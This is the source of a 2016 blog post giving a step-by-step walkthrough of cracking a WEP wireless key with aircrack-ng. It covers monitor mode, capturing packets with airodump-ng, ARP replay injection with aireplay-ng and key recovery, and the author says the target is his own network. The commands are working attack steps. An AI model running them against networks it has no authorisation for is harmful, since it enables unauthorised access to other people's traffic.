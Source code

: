 ```yaml
---
layout: post
title:  "Cracking – Wireless Network using Air Crack"
date:   2016-10-29 00:00:01 +0200
categories: blog
---
```

To crack the WEP key a hacker needs to capture sample packets not intended for his own network interface and run crack program to compare testing keys against WEP key bundled with captured packets in attempt of decryption. The key which fits to decrypt captured packets is the key used by wireless network to encrypt its entire wireless communication with its connected stations.

The guide assumes that your have wireless network card installed and that it supports monitor mode. In this example I’m using Realtek Semiconductor Co., Ltd. RTL-8185 IEEE 802.11a/b/g Wireless LAN Controller
### **1. AIR Crack Installation**
##### **Debian:**
{% highlight ruby %}
# apt-get install aircrack-ng
{% endhighlight %}
##### **Fedora:**
{% highlight ruby %}
# yum -y install aircrack-ng
{% endhighlight %}
### **2. Identify wireless network interface**
First we need to identify name of our wireless network interface. If your wireless network card is installed correctly an iwconfig command will reveal the name of your wireless network interface:
{% highlight ruby %}
$ /sbin/iwconfig

wlan0     IEEE 802.11  Mode:Monitor  Frequency:2.437 GHz  Tx-Power=20 dBm
{% endhighlight %}
### **3. Turn on Monitor mode**
{% highlight ruby %}
# airmon-ng start wlan0

Interface       Chipset         Driver
wlan0                   rtl8180 - [phy0]
      (monitor mode enabled on mon0)
{% endhighlight %}
### **4. Identify a wireless network BSSID**
In this guide i’m are going to crack a wireless WEP key of my own network. In this step I need to identify BSSID of the network I’m intending to crack and as well as its channel number:
{% highlight ruby %}
# airodump-ng wlan0
{% endhighlight %}
Information we can retrieve from airodump-ng output:

![](/img/blog/cracking-wireless-network-using-air-crack/identify-wireless-network-BSSID.png)
##### **BASE:**
BSSID : 00:11:95:9F:FD:F4
Channel: 6
##### **STATION:**
MAC: 00:13:02:30:FF:EC
Station connected to my wireless router is my laptop with wireless network card running Debian lenny. It is important to have at least one station associated with base so we can capture packets from this communication.
### **5. Sniffing wireless network**
At this stage we can start capturing packets between base and station. The following command will start capturing packets. It is recommended to capture at least 5000 packets. Number of packets required depends on WEP key length in use. I have managed to crack WEP key 64 bits long with 10 hex characters with around 6000 captured packets. Number 6 in the following command is a channel number of our wireless base station.
{% highlight ruby %}
# airodump-ng -c 6 -w data-capture wlan0
{% endhighlight %}
![](/img/blog/cracking-wireless-network-using-air-crack/sniffing-wireless-network.png)
### **6. Injection of packets**
Capturing the packets may take some. aireplay-ng will create some traffic so we can capture more packets for a given time. Since we are hacking our own network, browsing internet on my laptop also helps to create some traffic.
{% highlight ruby %}
# aireplay-ng -3 -b 00:11:95:9F:FD:F4 -h 00:13:02:30:FF:EC wlan0
{% endhighlight %}
![](/img/blog/cracking-wireless-network-using-air-crack/injection-of-packets.png)
### **7. Crack WEP wireless key**
As a last step we crack WEP key by using captured packets and aircrack-ng command. All captured packets are now stored in data-capture-01.cap file.
NOTE: do not stop capturing process as you do not know if current amount of captured packed is satisfactory to crack WEP key.
{% highlight ruby %}
# aircrack-ng -z data-capture-01.cap
{% endhighlight %}
![](/img/blog/cracking-wireless-network-using-air-crack/crack-wep-wireless-key.png)
